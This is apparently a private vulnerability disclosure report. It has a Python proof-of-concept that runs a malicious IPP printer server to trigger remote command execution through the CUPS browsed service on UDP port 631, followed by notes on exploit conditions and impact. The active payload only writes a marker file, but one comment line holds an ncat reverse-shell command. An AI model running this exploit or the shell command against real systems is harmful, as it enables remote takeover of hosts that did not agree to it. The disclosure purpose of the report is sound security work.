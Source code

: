 ````
		print("%s <LOCAL_HOST> <TARGET_HOST>" % sys.argv[0])
		quit()

	SERVER_HOST = sys.argv[1]
	SERVER_PORT = 12345

	# "sh -c \'echo $(uname -a) > /tmp/GOD\'"
	# ncat -e /bin/sh 192.168.50.19 4242

	command = "echo 1 > /tmp/I_AM_VULNERABLE"

	server = IPPServer((SERVER_HOST, SERVER_PORT),
	IPPRequestHandler, MaliciousPrinter(command))

	threading.Thread(
		target=run_server,
		args=(server, )
	).start()

	TARGET_HOST = sys.argv[2]
	TARGET_PORT = 631
	send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

	print("wating ...")

	while True:
		time.sleep(1.0)

```

Exploit: An attacker can exploit this vulnerability if it can connect to the host via UDP port 631, which is by default bound to INADDR_ANY, in which case the attack can be entirely remote, or if it's on the same network of the target, by using mDNS advertisements.

Impact: Remote execution of arbitrary commands when a print job is sent to the system printer.

Discovery: A lot of curiosity (when I noticed the *:631 UDP bind I was like "wtf is this?!" and went down a rabbit hole ...) and good old source code auditing.

Has been exploited? no

Is public? no{quote}

Disclosure Plans? yes
````
